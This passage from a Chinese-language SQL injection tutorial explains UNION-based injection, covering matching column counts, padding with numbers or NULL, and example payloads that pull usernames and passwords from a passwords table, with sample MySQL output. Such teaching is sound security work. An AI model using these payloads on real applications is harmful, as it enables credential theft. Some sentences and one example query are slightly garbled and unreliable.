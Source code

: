 注意：所有位置上所选列的数据类型应相同。

------

### 偶数列

一条`UNION`语句只能对`SELECT`具有相同列数的语句进行操作。例如，如果我们尝试`UNION`两个具有不同列数的结果的查询，我们会收到以下错误：

```shell-session
mysql> SELECT city FROM ports UNION SELECT * FROM ships;

ERROR 1222 (21000): The used SELECT statements have a different number of columns
```

上面的查询导致错误，因为第一个`SELECT`返回一列而第二个`SELECT`返回两列。一旦我们有两个返回相同列数的查询，我们就可以使用`UNION`运算符从其他表和数据库中提取数据。

例如，如果查询是：

```sql
SELECT * FROM products WHERE product_id = 'user_input'
```

我们可以`UNION`在输入中注入一个查询，以便返回另一个表中的行：

```sql
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '
```

假设表有两列，上述查询将返回`username`表`password`中的条目。`passwords``products`

------

### 非偶数列

我们会发现原始查询的列数通常与我们要执行的 SQL 查询的列数不同，因此我们必须解决这个问题。例如，假设我们只有一列。在这种情况下，我们希望`SELECT`，我们可以为剩余的必需列放置垃圾数据，以便我们正在处理的列总数`UNION`与原始查询相同。

例如，我们可以使用任何字符串作为垃圾数据，查询将返回该字符串作为该列的输出。如果我们`UNION`使用字符串`"junk"`，`SELECT`则查询`SELECT "junk" from passwords`将始终返回`junk`。我们也可以使用数字。例如，查询`SELECT 1 from passwords`将始终`1`作为输出返回。

注意：在用垃圾数据填充其他列时，必须保证数据类型与该列的数据类型匹配，否则查询会返回错误。为了简单起见，我们将使用数字作为我们的垃圾数据，这对于跟踪我们的有效载荷位置也很方便，我们将在后面讨论。

提示：对于高级 SQL 注入，我们可能只想使用 'NULL' 来填充其他列，因为 'NULL' 适合所有数据类型。

`products`上面例子中的表有两列，所以我们必须有`UNION`两列。如果我们只想得到一列“eg `username`”，我们必须这样做`username, 2`，这样我们就有相同数量的列：

```sql
SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords
```

如果我们在原始查询的表中有更多的列，我们必须添加更多的数字来创建剩余的所需列。例如，如果原始查询用于`SELECT`具有四列的表，我们的`UNION`注入将是：

```sql
UNION SELECT username, 2, 3, 4 from passwords-- '
```

此查询将返回：

```shell-session
mysql> SELECT * from products where product_id UNION SELECT username, 2, 3, 4 from passwords-- '

+-----------+-----------+-----------+-----------+
| product_1 | product_2 | product_3 | product_4 |
+-----------+-----------+-----------+-----------+
|   admin   |    2      |    3      |    4      |
+-----------+-----------+-----------+-----------+
```
